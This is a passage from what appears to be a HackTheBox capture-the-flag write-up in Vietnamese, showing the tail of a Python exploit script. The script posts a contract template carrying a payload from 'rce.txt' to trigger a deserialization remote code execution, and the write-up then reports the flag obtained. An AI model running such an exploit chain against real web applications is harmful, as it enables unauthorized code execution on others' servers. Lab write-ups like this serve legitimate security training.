 ```python
    authenticity_token = getAuthenToken(contracts_page.text)
    contracts_payload = {
        "authenticity_token": authenticity_token,
        "name": "a",
        "description": "a",
        "content": "a",
        "commit": "Create Template",
        "data": content_data
    }
    response = session.post(f"{base_url}/contract_templates", data=contracts_payload)
    response.raise_for_status()
login()
deserialization('rce.txt')                                   
```
                                 
Chạy file và ta có flag
    
![image](./images/image69.png)

Flag : HTB{f4k3_fl4g_f0r_t3st1ng}